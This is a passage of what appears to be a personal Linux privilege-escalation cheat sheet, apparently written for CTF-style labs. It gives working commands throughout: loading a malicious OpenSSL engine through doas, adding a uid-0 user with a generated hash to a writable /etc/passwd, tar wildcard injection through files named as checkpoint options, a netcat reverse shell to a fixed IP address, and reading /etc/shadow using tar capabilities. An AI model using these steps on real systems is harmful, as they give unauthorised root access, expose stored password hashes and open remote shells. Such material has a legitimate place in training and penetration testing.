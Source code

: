 simply create malicious c file complie it and run.

doas openssl req -engine ./lib.so



## privesc /etc/passwd

if user may writeable permission on /etc/passwd

create hash using openssl

    openssl passwd -1 -salt root2 root   

$1$root2$qP6XJjGSJ/b7ZfJp.GGl80

add this hash in /etc/passwd and su root2 got root

```bash
root:x:0:0:root:/root:/bin/bash
root2:$1$root2$qP6XJjGSJ/b7ZfJp.GGl80:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin

```



## Wild card tar injection privesc

https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/

if crontab runs tar * 

Exploit:

Create shell.sh put nc reverse shell and make another files callled --checkpoint=1 which shows progress msg every number record and --checlpoint-action=exec=sh shell.sh and is execute when checkpoint is reached to 1 as we given early. once executed shell.sh we got root nc shell hence crontab root runs tar.

```bash
echo "mkfifo /tmp/lhennp; nc 10.9.172.114 8888 0</tmp/lhennp | /bin/sh >/tmp/lhennp 2>&1; rm /tmp/lhennp" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

## Capabilities Tar

```bash
getcap -r / 2>/dev/null         
/usr/bin/tar = cap dac read search+ep
/usr/bin/tar -cvf shadow.tar /etc/shadow
/usr/bin/tar -xvf shadow.tar
cat etc/shadow
```
